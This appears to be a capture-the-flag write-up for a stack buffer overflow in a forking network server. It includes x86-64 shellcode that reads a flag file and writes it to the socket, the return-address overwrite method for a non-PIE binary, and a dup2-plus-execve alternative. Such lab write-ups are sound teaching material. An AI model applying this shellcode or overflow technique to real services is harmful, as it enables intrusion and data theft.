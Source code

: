 # server

This challenge is very similar to the [Only Read Write](../onlyreadwrite/README.md) challenge. The only difference is that the binary now is a server that listens on a port and forks a child process that reads in a buffer. Then we have to write not on stdout but on the socket file descriptor.

```c
    mov r12, rdi
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f2e
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read(fd_open, 'rsp', 0x64) */
    push rax
    xor eax, eax /* SYS_read */
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd_socket, buf='rsp', n=0x64) */
    push r12
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

In this case I used R12 to store the socket file descriptor. The shellcode is the same as the previous challenge, except for the write part were we put R12 in RDI, and then we call write.

The process forked from the server executes this function

```c
void prog(int socket_fd) {
  size_t n;
  char name [1008];

  get_name(socket_fd, name);
  write(socket_fd, "Hello Mr.", 9);
  n = strlen(name);
  write(socket_fd, name, n);
  return;
}
```

get_name() is reading 4096 bytes in a buffer of 1008 bytes, so we have a buffer overflow. We overflow the buffer with the shellcode and modify the return address to point to it. We know the address of the shellcode because it is in the .bss section and the binary is not PIE.

## Alternative solution

One can also use the syscall `dup2` to redirect the socket file descriptor to stdout, and then use the shellcode from the previous challenges.

```c
xor rax, rax
mov rax, 0x21 /* dup2 */
mov rsi, 0x0
/* mov rdi, rdi <- the fd is already in rdi */
syscall
```

Then do the same for stdin. And then just a normal execve will do the job.

Note that I'm not overwriting the rdi register (that should contain the `newfd` argument) because the file descriptor is already in rdi.

The complete exploit is in [script.py](script.py).
